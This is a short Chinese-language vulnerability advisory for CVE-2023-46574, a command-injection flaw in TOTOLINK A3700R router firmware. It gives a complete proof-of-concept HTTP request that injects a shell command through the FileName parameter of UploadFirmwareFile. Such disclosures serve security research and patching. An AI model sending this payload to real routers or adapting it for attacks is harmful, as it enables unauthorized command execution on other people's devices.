 
## TOTOLINK A3700R命令执行漏洞CVE-2023-46574
TOTOLINK A3700R v9.1.2u.6165_20211012版本存在命令执行漏洞，攻击者可利用该漏洞通过UploadFirmwareFile函数的FileName参数执行任意代码。   

## 影响版本：
```
TOTOLINK A3700R v9.1.2u.6165_20211012
```


## poc
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
```
![image](../../images/37a0b1f8-101e-4642-b9fa-3fda6f31f079.png)

## 来源
- https://github.com/OraclePi/repo/blob/main/totolink%20A3700R/1/A3700R%20%20V9.1.2u.6165_20211012%20vuln.md
